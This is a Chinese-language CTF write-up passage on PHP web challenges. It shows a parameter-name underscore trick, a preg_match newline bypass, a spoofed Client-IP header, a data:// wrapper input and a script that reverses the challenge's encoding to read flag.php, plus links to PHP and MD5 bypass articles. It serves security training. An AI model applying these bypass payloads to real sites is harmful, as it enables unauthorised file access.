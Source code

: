 php解析参数会转换成有效变量，%5b %20在变量中间都会变成下划线，

preg_match会匹配开头与结尾，利用字符串换行%0a匹配结尾

b%20u%20p%20t=23333%0a

Client-IP: 127.0.0.1

```
[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+...有一串这样的字符串，是jsfuck加密，解密出下面源码
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 
function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }

<?php
function unchange($v){ 
    $re = '';
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) - $i*2 ); 
    } 
    
    $re = base64_encode($re);
    return $re; 
}
$real_flag = unchange('flag.php');
echo $real_flag;
?>
```

代码反写flag.php，2333=text=data://text/plain,todat is a happy day，出flag

### MD5

[2020强网杯]: https://www.gem-love.com/ctf/2576.html#Funhash


[^PHP花式绕过大全]: https://blog.csdn.net/xiayu729100940/article/details/102619255
[PHP中MD5碰撞Bypass]: https://evi0s.com/2019/02/09/md5-collisions/
[2021陕西省大学生网络安全技能大赛 Web ez_checkin]: https://www.cnblogs.com/seizer/p/14840901.html
[难版pop链]: https://www.136.la/nginx/show-127914.html
[PHP之十六个魔术方法详解]:  https://segmentfault.com/a/1190000007250604